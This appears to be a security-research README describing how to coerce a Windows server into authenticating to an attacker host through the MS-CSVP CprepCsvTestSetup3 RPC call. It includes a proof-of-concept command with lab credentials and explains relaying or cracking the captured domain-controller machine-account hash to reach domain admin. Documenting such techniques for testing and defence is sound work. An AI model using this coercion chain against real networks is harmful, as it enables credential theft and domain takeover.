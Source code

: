 # MS-CSVP - Remote call to CprepCsvTestSetup3 (opnum 5)

## Summary

+ **Protocol**: [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279)

+ **Protocol UUID**: 12108a88-6858-4467-b92f-e6cf4568dfb6

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`CprepCsvTestSetup3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol (with uuid `12108a88-6858-4467-b92f-e6cf4568dfb6` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-CSVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279) and allows to call RPC functions of this protocol. We will then call the remote [`CprepCsvTestSetup3`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CprepCsvTestSetup3('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CprepCsvTestSetup3(
   [in] GUID TestShareGuid,
   [in, string] LPWSTR Reserved
 );
```

## References

+ Documentation of protocol [MS-CSVP]: Failover Cluster: Setup and Validation Protocol (ClusPrep): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/600931f0-739b-4c09-8ddf-05555438c279

+ Documentation of function `CprepCsvTestSetup3`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-csvp/3a1d7771-c039-43d2-a882-30fdb6e0531c